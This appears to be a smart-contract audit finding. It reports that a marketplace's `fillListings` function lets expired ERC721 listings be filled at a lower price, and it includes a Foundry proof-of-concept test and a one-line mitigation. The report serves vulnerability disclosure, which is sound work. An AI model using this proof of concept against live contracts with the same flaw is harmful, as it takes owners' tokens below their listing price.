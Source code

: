 Quaint Infrared Giraffe

Medium

# `Listing::fillListings` does not check if listing duration has ended and leads to the `ERC721` token been transfered at a price lesser than the listing price

### Summary

There is no checks in `Listing::fillListings` as to whether a listing has ended or not making the listing available after the duration, and since the listing contract holds the `ERC721` token, the token becomes transferable after the listing has ended. 

Also, the  `FILL_FEE` used in `Listing::fillListings` is based on `fees and refund` calculation from `Listing::_resolveListingTax` which enforces that when a listing has ended, no refund will be offered. This leads to the `FILL_FEE` (after listing has ended) not taking into consideration the `fees and refund`,  and the `ERC721` token been transferred at lesser price. 

### Root Cause

No Checks in `Listing::fillListings` on whether listing duration has expired.

### External pre-conditions

Listing has ended and the `listing.owner` is yet to retrieve his token.


### Impact

Loss of asset by owner

### PoC

```
    function test_POC() public {
        address _owner = makeAddr("owner");
        uint _tokenId;
        uint16 _floorMultiple = 400;

        erc721a.mint(_owner, _tokenId);

        vm.prank(_owner);
        erc721a.setApprovalForAll(address(listings), true);

        Listings.Listing memory listing = IListings.Listing({
            owner: payable(_owner),
            created: uint40(block.timestamp),
            duration: 7 days,
            floorMultiple: _floorMultiple
        });
       
        // Create our listing
        vm.startPrank(_owner);
        _createListing({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: listing
            })
        });

        console.log("Balance of Owner after creating listing: ", locker.collectionToken(address(erc721a)).balanceOf(_owner));

        ICollectionToken token = locker.collectionToken(address(erc721a));

        console.log("Balance of Listing contract after listing is created: ",locker.collectionToken(address(erc721a)).balanceOf(address(listings)));

        vm.warp(1 days);

        (bool isAvailable, uint price) = listings.getListingPrice(address(erc721a), _tokenId);


        uint[][] memory tokenIdsOut = new uint[][](1);
        tokenIdsOut[0] = new uint[](1);
        tokenIdsOut[0][0] = _tokenId;

        address filler = makeAddr("filler");
        deal(address(locker.collectionToken(address(erc721a))), filler, price);
        
        vm.warp(99 days);
        vm.startPrank(filler);
        locker.collectionToken(address(erc721a)).approve(address(listings), type(uint).max);
        listings.fillListings(
            IListings.FillListingsParams({
                collection: address(erc721a),
                tokenIdsOut: tokenIdsOut
            })
        );
        vm.stopPrank();

        assertEq(erc721a.ownerOf(_tokenId), filler); //@audit Proof that the token was trasnferred
        assertEq(locker.collectionToken(address(erc721a)).balanceOf(address(filler)), price - 1 ether); //@audit 1 ether is the amount if there was nothing like fees or refund in the protocol system
    }
```

### Mitigation

A requirement check in `Listing::filling` to enforce that the token to be filled is within listing duration.